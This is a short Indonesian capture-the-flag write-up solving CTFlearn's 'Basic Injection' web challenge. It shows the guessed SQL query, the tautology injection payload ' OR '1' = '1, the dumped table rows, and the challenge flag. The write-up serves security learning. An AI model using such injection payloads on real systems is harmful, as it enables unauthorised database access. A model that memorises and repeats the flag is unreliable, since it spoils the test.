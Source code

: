 # Basic Injection (30 Points)
See if you can leak the whole database. The flag is in there somwhere… https://web.ctflearn.com/web4/
# Solved
Challenge kali ini, kita disuruh menginput <b>SQL Injection</b> params. Query yang kemungkinan di pakai dalam website tersebut ialah
```sql
SELECT * FROM data WHERE name = 'any'
```
Bisa kita lihat pada query tersebut akan mengambil sebuah data khusus, bagaimana jika kita ingin mengambil semua data ? inilah exploit nya
```sql
' OR '1' = '1
```
Hasil :
```
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: th4t_is_why_you_n33d_to_sanitiz3_inputs
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
```
Flag : <b>th4t_is_why_you_n33d_to_sanitiz3_inputs</b>
